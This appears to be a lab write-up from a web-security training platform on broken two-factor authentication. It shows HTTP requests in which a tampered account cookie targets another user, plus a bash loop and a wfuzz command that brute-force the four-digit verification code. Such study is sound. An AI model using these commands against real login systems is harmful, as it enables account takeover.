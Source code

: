 They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:

```
HTTP/1.1 200 OK
Set-Cookie: account=carlos

GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```

When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```

In this case, an attacker could log in using their own credentials but then change the value of the account cookie to any arbitrary username when submitting the verification code.

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

This is extremely dangerous if the attacker is then able to brute-force the verification code as it would allow them to log in to arbitrary users' accounts based entirely on their username. They would never even need to know the user's password.

#### LAB

![](../images/Pasted%20image%2020240926164118.png)

We need to send the login2 request to repeater and send the verify option for carlos username, this ensures that a code for the username `carlos` is being sent:


![](../images/Pasted%20image%2020240926164910.png)


Once we've sent the request, we need to brute force the security code, for this, i used the following:

` for i in {0000..9999}; do echo $i; done > 2facodes.txt` -> To generate numbers from 0000 to 9999 and save it in a file


`wfuzz -c -w 2facodes.txt -d "mfa-code=FUZZ" -u "https://0ac5006403c51099804b719200ce0076.web-security-academy.net/login2" -b "session=YaWIHMFv6VqOgd2RPzQAFvcp93RwZ7IU; verify=carlos" --hc 200
